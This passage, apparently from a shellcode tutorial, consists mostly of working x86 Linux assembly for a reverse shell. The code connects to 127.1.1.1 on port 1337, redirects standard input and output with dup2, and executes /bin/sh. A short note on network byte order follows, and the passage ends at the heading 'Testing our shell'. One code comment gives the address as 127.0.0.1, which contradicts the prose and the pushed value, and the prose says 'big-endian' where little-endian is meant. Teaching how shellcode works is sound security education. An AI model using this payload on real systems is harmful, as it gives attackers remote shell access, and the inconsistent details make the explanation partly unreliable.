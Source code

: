 ```nasm
    ;  
    inc ebx             ; EBX = 0x2   
    push 0x0101017f       ; sockaddr.sin_addr.s_addr: 127.0.0.1 (big endian)  
    push word 0x3905    ; sockaddr.sin_port       : PORT = 1337  
    push bx             ; sockaddr.sin_family     : AF_INET = 2  
    mov ecx, esp        ; ECX holds pointer to struct sockaddr  
  
    push 0x10           ; sizeof(sockaddr)  
    push ecx            ; pointer to sockaddr  
    push esi            ; sockfd  
    mov ecx, esp        ; ECX holds pointer to arguments  
    inc ebx             ; EBX = 0x3 | #define SYS_CONNECT 3  
    mov al, 0x66        ; socketcall()  
    int 0x80  
  
    xchg ebx, esi  
      
    ;  
    ; dup2(ebx, {0,1,2})  
    ;  
    xor ecx, ecx  
lbl:  
    mov al, 0x3f  ; dup2()  
    int 0x80  
    inc ecx    ; Iterate over {0,1,2}  
    cmp cl, 0x4   ; Are we done?  
    jne lbl    ; Nope  
      
    ; execve("/bin//sh", NULL, NULL)  
    push edx   ; Null terminator  
    push 0x68732f2f  ; "hs//"  
    push 0x6e69622f  ; "nib/"  
      
    mov ebx, esp  ; EBX points to "/bin//sh"  
    mov ecx, edx  ; ECX = NULL`  
      
    mov al, 0xb   ; execve()  
    int 0x80  
```   

  
As you noticed, when calling `connect()`, we defined port 1337 as `0x3905` instead of `0x0539`, and local IP 127.1.1.1 (we avoided 127.0.0.1 because of null characters) was converted to 0x0101017f instead of 0x7F010101. This is because it's in network byte order, which is big-endian. In the example code you should still call `htonl()` / `inet_addr()` even if your CPU is big-endian for cross compatibility.  

---

## Testing our shell
